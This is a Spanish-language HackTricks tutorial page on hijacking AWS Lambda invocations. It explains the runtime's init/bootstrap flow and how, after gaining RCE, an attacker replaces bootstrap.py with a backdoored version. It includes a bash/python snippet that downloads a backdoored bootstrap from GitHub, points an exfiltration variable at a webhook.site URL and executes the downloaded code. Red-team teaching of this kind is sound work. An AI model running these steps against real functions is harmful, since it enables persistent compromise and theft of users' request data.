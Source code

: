# AWS - Robar Solicitudes de Lambda

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Flujo de Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos endpoints interesantes:
* **`/2018-06-01/runtime/invocation/next`** – obtener el siguiente evento de invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del manejador para la invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que obtiene invocaciones del proceso init y llama al código del usuario para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía al init la **respuesta**

Ten en cuenta que bootstrap carga el código del usuario como un módulo, por lo que cualquier ejecución de código realizada por el código del usuario está ocurriendo en este proceso.

## Robando Solicitudes de Lambda

El objetivo de este ataque es hacer que el código del usuario ejecute un proceso **`bootstrap.py`** malicioso dentro del proceso **`bootstrap.py`** que maneja la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras que el bootstrap **legítimo** está **atrapado** ejecutando el malicioso, por lo que no pedirá solicitudes al proceso init.

Esta es una tarea simple de lograr ya que el código del usuario está siendo ejecutado por el legítimo proceso **`bootstrap.py`**. Así que el atacante podría:

* **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
* Se debe enviar una solicitud a **`/${invoke-id}/response`**
* El invoke-id se puede obtener de la pila del legítimo proceso **`bootstrap.py`** utilizando el módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [se propuso aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como [se propuso aquí](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Ejecutar un **`bootstrap.py`** malicioso que manejará las próximas invocaciones.
* Por razones de sigilo, es posible enviar los parámetros de invocación de lambda a un C2 controlado por el atacante y luego manejar las solicitudes como de costumbre.
* Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación lambda actual.

### Pasos del Ataque

1. Encontrar una vulnerabilidad de **RCE**.
2. Generar un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Ejecutar** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para más información, consulta [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
